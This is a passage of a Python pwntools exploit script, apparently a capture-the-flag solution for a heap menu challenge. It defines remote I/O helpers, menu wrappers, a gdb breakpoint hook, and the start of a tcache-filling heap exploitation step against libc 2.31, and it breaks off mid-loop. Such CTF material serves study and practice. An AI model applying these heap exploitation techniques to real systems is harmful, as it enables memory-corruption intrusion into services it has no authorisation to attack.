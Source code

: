```python
else:
    p = remote(IP, PORT)
    libc = ELF("./libc-2.31.so")


def ru(x): return p.recvuntil(x)
def se(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def l64(): return u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))  # python 3.9 pass


def debug(cmd=""):
    gdb.attach(p, cmd)


def cmd(idx):
    sla("Todo:\n", str(idx))


def add(idx, size, content):
    cmd(1)
    sla("\n", str(idx))
    sla("\n", str(size))
    sla("\n", content)


def edit(idx, content):
    cmd(2)
    sla("\n", str(idx))
    sla("\n", content)


def talk(idx):
    cmd(3)
    sla("\n", str(idx))
    ru("Baby said: ! @ # $ % ^ & * ( ")
    B0 = ru("\n")[-2]
    ru("Continued the baby: ! @ # $ % ^ & * ( ")
    B1 = ru("\n")[-2]
    return int(B0), int(B1)


def free(idx):
    cmd(4)
    sla("\n", str(idx))


def dd():
    if DEBUG:
        cmd = ""
        cmd += "b *%d\n" % (base + 0x198E)  # call menu_sub
        cmd += "set $a=%d\n" % (base + 0x4080)  # _QWORD *arrPtr[] # x /10xg $a : ptr array
        debug(cmd)


# === Step-1: malloc 8 chunks, full tcache(cnt=7), 1 to unsorted bin
for i in range(8):  # c7: avoid top chunk merging
    add(i, 0xa0, "ILoveC")  # heap chunks: c0, c1, c2, ... c7, top_chunk
for i in range(7):  # 0 ~ 6
```